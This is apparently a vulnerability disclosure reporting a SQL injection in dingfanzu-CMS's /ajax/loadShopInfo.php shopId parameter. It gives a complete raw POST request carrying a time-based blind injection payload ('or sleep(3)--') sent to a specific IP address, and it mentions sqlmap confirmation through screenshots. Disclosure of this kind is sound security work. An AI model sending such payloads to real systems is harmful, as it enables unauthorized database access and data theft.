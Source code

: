 ## dingfanzu-CMS loadShopInfo.php shopId SQL inject

**Exploit Title**: dingfanzu-CMS loadShopInfo.php shopId SQL inject

**Exploit Author**: 

**Vendor Homepage**: https://github.com/geeeeeeeek/dingfanzu

**Software Link**: https://github.com/geeeeeeeek/dingfanzu

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters ,
so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "loadShopInfo.php" shopId parameter, resulting in the generation of SQL injection.

**Vulnerability Request Method** : POST

**Vulnerability Path**: /ajax/loadShopInfo.php?shopId=

**Vulnerability Proof**
**Payload**:
```
POST http://101.43.124.118:8001/ajax/loadShopInfo.php HTTP/1.1
Host: 101.43.124.118:8001
Accept: */*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Origin: http://101.43.124.118:8001
Referer: http://101.43.124.118:8001/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=hacfqna2es59esaf3pka2ihpes; Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1739007054; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1739007054; HMACCOUNT=2798E5FBF5B7EBE0
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

shopId=1'+or+sleep(3)--+
```

### Proof of Concept

The code does not validate the input data and does not use precompilation technology

![img.png](img.png)
![img_1.png](img_1.png)

**Practical verification**：

![img_2.png](img_2.png)

![img_3.png](img_3.png)

**Use Sqlmap**：

![img_4.png](img_4.png)

![img_5.png](img_5.png)



